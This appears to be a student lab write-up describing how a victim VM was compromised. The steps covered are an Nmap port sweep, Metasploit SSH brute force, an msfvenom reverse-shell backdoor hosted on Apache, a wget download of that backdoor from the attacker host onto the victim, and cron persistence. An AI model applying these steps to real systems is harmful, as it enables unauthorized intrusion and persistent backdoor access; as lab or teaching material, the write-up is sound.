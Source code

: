```yaml
---
description: >-
  A series of programs and commands were used in order to fully infect the
  Target
---
```


# How this VM was Compromised

For this attack strategy, the following was accomplished:

1. Use Nmap scans to determine open ports
2. Create a username and password list to run against the Victim
3. Use Metasploit to bruteforce with ssh
4. Remote SSH into the Victim with the acquired username and password
5. Run enumeration commands to find/steal data and set up a new sudoers user
6. Download the backdoor and stage on the system
7. Setup persistence of the backdoor with Cron

## **Enumeration Commands**

The first step when "infecting" the victim is to perform a port scan to locate IP addresses on the network. The command used is ^/nmap -p 22 -open 184.171.155.0/24

* \-p specifies the port, which is 22
* \-open searches for all ports that are open, as opposed to closed
* the IP address is that of the network but not just specific IPs

<figure><img src="../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

Because we know what our Victim's IP address already is, we know that we will run our more advanced scans against this specific IP address. Still, it is a very useful scan and proves that port 22 is open, which will be necessary later for SSH.

We brute force with a generated password list which was added by the attacker. Metasploit will be used as the way to brute force with SSH. The specific script that executes is the scanner/ssh/ssh\_login, which will run the password list against the specific IP we got from the Nmap port scan.

<figure><img src="../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

As you can see, the command was successful in using brute force with the generated password list. The password list just has common passwords, highlighting how often strong passwords are overlooked. &#x20;

### **Process of Creating the Backdoor on HostUbuntu**

A backdoor will be created and then hosted on an apache web page. This way, when the attacker uses remote SSH to gain access to the Victim, it will be easy to navigate to the apache webpage and download the backdoor. This is accomplished through the use of msfvenom and Metasploit.&#x20;

First, you will need to create the backdoor with ^/msfvenom. This is a command line tool that generates payloads that can be used in many different locations as well as has a variety of output options.

* \-p specifies the payload, which will be used with Metasploit
* LHOST is the IP address of the host
* LPORT can be any port
* \-f specifies as an executable
* \-o will be the name of the file

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

The backdoor should be staged somewhere, so it is moved into the /var/www/html/ file location. It also has to have permissions updated, with the command ^/chmod +x windowsbackdoor.exe Then, once the apache2 service is loaded, the backdoor will also be ready.

<figure><img src="../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

For this exploitation, multi/handler will be used. This is a stub that handles exploits launched outside of the framework. We will be using the payload specifically for Linux and x86 system types. There are just about options for every type of known OS, which is Metasploit is such a popular tool.&#x20;

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Just as with the SSH Brute Force with Metasploit, certain inputs will have to be configured before starting the exploit

* LHOST is the IP of the HostVM, not Victim
* LPORT can be any random port that is open

This will begin the reverse\_tcp shell and wait until a victim downloads the backdoor or it is installed manually.

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

### **Process of Downloading Backdoor on VictimUbuntu**

Once the backdoor is ready, we can begin to stage it in the Victim's network. With the credentials taken from the numerous scans, you can ssh login.

<figure><img src="../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Use the wget command to manually download the backdoor on the Victim ^/wget http://184.171.155.46/windowsbackdoor.exe

<figure><img src="../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

The last step with this specific backdoor is to stage it in the /usr/local/bin with ^/mv windowsbackdoor.exe /usr/local/bin

<figure><img src="../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

Once the backdoor is in place, the last step regarding persistence is to set up the crontab. This way, the backdoor will constantly be downloaded to the Victims network at a specific interval, set by the attacker. The first time you use the command ^/crontab -e/, you will be required to select an editor. This crontab is located in /var/spool/cron.

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Then, this is one place to store your cron jobs. There is also a crontab known as system-wide and is in a different file location than the normal crontab. In this case, the attacker set up cron jobs in both locations. The second location for crontab is in /etc/crontab.

<figure><img src="../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

It is required for cron to be reset before any scheduling jobs can begin. As for the actual crontab syntax, it is quite basic. First, you enter schedule, which is a combination of

* Minutes
* Hours
* Days of the Month
* Months
* Days of the Week

These are represented by \* when the value is 0. For example, 30 17 \* \* 2 will run a command every Tuesday at 5:30 PM

The second half of the syntax is the actual command to run. It can be quite a complex command or something simple like a wget.

<figure><img src="../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

**All of the aspects that were added to the VM were done so during the process of remote SSH.**

